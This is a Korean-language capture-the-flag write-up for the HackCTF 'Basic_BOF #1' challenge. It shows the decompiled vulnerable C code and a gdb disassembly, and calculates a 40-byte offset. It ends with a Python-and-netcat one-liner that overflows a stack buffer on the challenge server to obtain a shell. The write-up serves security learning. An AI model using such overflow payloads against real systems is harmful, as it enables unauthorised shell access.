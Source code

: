 ```yaml
---


---
```


<h1 id="hackctfbasic_bof-1">HackCTF:Basic_BOF #1</h1>
<h2 id="section">2019-07-31</h2>
<p><code>file bof_basic</code>로 파일을 확인해 본다.</p>
<pre><code>bof_basic: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=2f533dce11288567796018c2c74b5d09954e60cd, not stripped
</code></pre>
<p><em>IDA-Hexlay</em></p>
<pre><code>int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+4h] [ebp-34h]
  int v5; // [esp+2Ch] [ebp-Ch]

  v5 = 67305985;
  fgets(&amp;s, 45, stdin);
  printf("\n[buf]: %s\n", &amp;s);
  printf("[check] %p\n", v5);
  if ( v5 != 67305985 &amp;&amp; v5 != -559038737 )
    puts("\nYou are on the right way!");
  if ( v5 == -559038737 )
  {
    puts("Yeah dude! You win!\nOpening your shell...");
    system("/bin/dash");
    puts("Shell closed! Bye.");
  }
  return 0;
}
</code></pre>
<h2 id="section-1">2019-08-01</h2>
<p>67305985(0x4030201) 이 변수(이하 n1으로 칭함)로 들어가고 n1이 -559038737(0xFFFFFFFFDEADBEEF)이여야 쉘을 호출한다.<br>
목적은 <code>fgets()</code>를 이용해 BOF하여 n1을 '0xDEADBEEF’로 변환시키는 것이다.</p>
<p><em>pwngdb</em></p>
<pre><code>0x080484ee &lt;+35&gt;:	lea    eax,[ebp-0x34]
0x080484f1 &lt;+38&gt;:	push   eax
0x080484f2 &lt;+39&gt;:	call   0x8048380 &lt;fgets@plt&gt;
0x080484f7 &lt;+44&gt;:	add    esp,0x10
0x080484fa &lt;+47&gt;:	sub    esp,0x8
0x080484fd &lt;+50&gt;:	lea    eax,[ebp-0x34]
0x08048500 &lt;+53&gt;:	push   eax
0x08048501 &lt;+54&gt;:	push   0x8048610
0x08048506 &lt;+59&gt;:	call   0x8048370 &lt;printf@plt&gt;
0x0804850b &lt;+64&gt;:	add    esp,0x10
0x0804850e &lt;+67&gt;:	sub    esp,0x8
0x08048511 &lt;+70&gt;:	push   DWORD PTR [ebp-0xc]
0x08048514 &lt;+73&gt;:	push   0x804861c
0x08048519 &lt;+78&gt;:	call   0x8048370 &lt;printf@plt&gt;
0x0804851e &lt;+83&gt;:	add    esp,0x10
0x08048521 &lt;+86&gt;:	cmp    DWORD PTR [ebp-0xc],0x4030201
0x08048528 &lt;+93&gt;:	je     0x8048543 &lt;main+120&gt;
0x0804852a &lt;+95&gt;:	cmp    DWORD PTR [ebp-0xc],0xdeadbeef
</code></pre>
<p>함수 <code>fgets()</code>를 통해 저장되는 주소는 ebp-0x34(ebp-52)이며 0x4030201이 들어간 변수의 주소는 ebp-0xc(ebp-12)이다. 총 40byte의 차이다.</p>
<pre><code>(python -c 'print "A" * 40 + "\xef\xbe\xad\xde"'; cat) | nc  ctf.j0n9hyun.xyz 3000
</code></pre>


